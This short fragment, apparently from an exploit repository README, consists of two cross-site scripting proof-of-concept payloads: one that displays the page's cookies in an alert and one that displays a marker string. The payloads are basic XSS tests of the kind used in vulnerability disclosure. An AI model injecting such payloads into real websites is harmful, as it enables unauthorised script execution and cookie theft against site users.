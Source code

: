 ## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("nu11secur1ty_is_here");</script>
```

